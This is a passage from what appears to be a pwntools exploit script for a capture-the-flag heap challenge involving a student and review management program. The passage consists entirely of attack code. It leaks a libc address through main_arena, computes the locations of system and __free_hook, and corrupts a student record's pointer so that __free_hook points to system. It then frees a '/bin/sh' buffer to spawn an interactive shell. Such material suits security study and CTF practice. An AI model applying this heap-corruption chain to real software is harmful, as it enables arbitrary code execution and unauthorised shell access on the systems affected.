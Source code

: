 ```python
change_role(1)
change_sid(5)

io.sendlineafter(b'choice>> ', b'2')
io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
libc_base = main_arena - (libc.symbols['__malloc_hook'] + 0x10)
sys_addr = libc_base + libc.symbols['system']		# system address got
malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']

### Step 6: get student 6 back, now the pointer of student 6 should be in the chunk of student 5
change_role(0)
add_student(1)

### Step 7: write comment for student 6: '/bin/sh'
write_review(6, 10, '/bin/sh')

### Step 8: change the address of student 6 to write system address to __free_hook
stu6_writeaddr = chunk_addr[4] + 0x50	# address of student 6 to write to

payload = p64(chunk_addr[4] + 0x30)	# address of student 6 header chunk
payload += p64(0) * 4
payload += p64(0x21)	# size of student 6 header chunk
payload += p64(1)
payload += p64(free_hook)	# change the write address of student 6 to __free_hook
write_review(5, 0, payload, bytes=True)

### Step 9: write system address to __free_hook
write_review(6, 0, p64(sys_addr), bytes=True)

### Step 10: change the address of student 6 back to buffer string '/bin/sh'
payload = p64(chunk_addr[4] + 0x30)	# address of student 6 header chunk
payload += p64(0) * 4
payload += p64(0x21)	# size of student 6 header chunk
payload += p64(1)
payload += p64(stu6_writeaddr)
write_review(5, 0, payload, bytes=True)

### Step 11: delete student 6, getshell
change_role(0)
call_parent(6)
io.interactive()
```
